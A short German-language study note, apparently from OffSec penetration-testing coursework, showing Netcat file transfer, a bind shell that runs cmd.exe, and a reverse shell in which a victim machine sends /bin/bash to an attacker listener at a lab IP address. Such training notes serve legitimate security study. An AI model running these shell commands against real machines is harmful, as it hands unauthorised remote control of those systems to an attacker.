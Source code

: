 # OffSec -  Netcat

## Datenübertragung
Mit #Netcat kann man auch Daten #übertragen. 
Hierzu ist wie folgt vorzugehen.

Auf dem Client wird eim TCP-Listening Port geöffnet und der Output in eine "incoming.exe" geschrieben

`nc -nlvp 4444 > incoming.exe`

Auf dem Host wird nun der folgende Befehl eingesetzt:

`nc -nv 10.11.0.22 4444 < /usr/share/windows-resources/binaries/wget.exe`

## Netcat Bindshell

Auf dem Opferrechner kann via #Netcat eine #BindShell gespawnt werden.

`nc -nlvp 4444 -e cmd.exe`

Mit der -e Option führt der Rechner nun das nachstehende Kommando aus, sobald sich jemand mit dem Listener verbindet.

Wenn man sich nun mittels dem Befehl:
`nc -nv 10.11.0.22 4444` 
Auf den Rechner schaltet, erhält man eine #BindShell.

## Netcat Reverseshell

Wenn nun nicht die Möglichkeit besteht eine #BindShell zu öffnen, da es zum Beispiel keine Möglichkeit gibt eingehenden Traffic des Routers an den Client weiterzuleiten, kann eine #Reverseshell eingesetzt werden.
Hierbei öffnet der Angreiffer einen #Listener auf seinem Client und das Opfer sendet eine Shell an den geöffneten Port

Angreifer:
`nc -nlvp 4444` <- Wartet auf Verbindung

Opfer:
`nc -nv 10.11.0.22 4444 -e /bin/bash`
